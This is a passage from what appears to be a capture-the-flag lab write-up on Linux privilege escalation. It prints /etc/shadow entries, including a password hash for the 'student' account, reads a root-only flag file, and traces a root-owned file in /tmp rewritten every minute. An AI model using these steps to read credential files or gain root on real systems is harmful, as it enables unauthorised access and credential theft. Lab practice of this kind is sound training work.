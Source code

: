 ```
uuidd:*:18960:0:99999:7:::
dnsmasq:*:18960:0:99999:7:::
landscape:*:18960:0:99999:7:::
sshd:*:18960:0:99999:7:::
pollinate:*:18960:0:99999:7:::
ubuntu:!:19013:0:99999:7:::
student:$6$66YLXJK4$RikcVQkp9i9gMphB05nY/QIjAXIBBtam8Ft3ljz1NTBN0DI/yJqZD6RH/dvpNU7KpWuZMvlqC9p4rGWhuveI80:19013:0:99999:7:::
```

`ls -l /root`:
```
total 8
-rw-r--r-- 1 root    root      33 Jan 21  2022 flag ←
drwxr-xr-x 3 student student 4096 Jan 21  2022 snap
```

`cat /root/flag`:
```
697914df7a07bb9b718c8ed258150164 ←
```

`exit`.

**Step 1B**.

`ls -la /home/student/`:
```
total 40
drwxr-xr-x 5 student student 4096 Jan 21  2022 .
drwxr-xr-x 4 root    root    4096 Jan 21  2022 ..
-rw------- 1 student student   62 Jan 21  2022 .bash_history
-rw-r--r-- 1 student student  220 Jan 21  2022 .bash_logout
-rw-r--r-- 1 student student 3772 Jan 21  2022 .bashrc
drwx------ 2 student student 4096 Jan 21  2022 .cache
drwx------ 3 student student 4096 Jan 21  2022 .gnupg
-rw-r--r-- 1 student student  807 Jan 21  2022 .profile
drwxrwxr-x 2 student student 4096 Jan 21  2022 .ssh
-rw------- 1 root    root      27 Jan 21  2022 message ←
```
The root user has the READ/WRITE permissions. So we can't even read it.

`find / -type f -name "message"`:
```
/home/student/message
/tmp/message ←
```
We can observe that a file with the same name is present in the `/tmp` directory.

If we check this file multiple times, we can observe that this file is being overwritten every minute. 
`ls -l /tmp/message`:
```
-rw-r--r-- 1 root root 27 Feb 22 15:24 /tmp/message
```
`ls -l /tmp/message`:
```
-rw-r--r-- 1 root root 27 Feb 22 15:25 /tmp/message
```
`ls -l /tmp/message`:
```
-rw-r--r-- 1 root root 27 Feb 22 15:26 /tmp/message
```
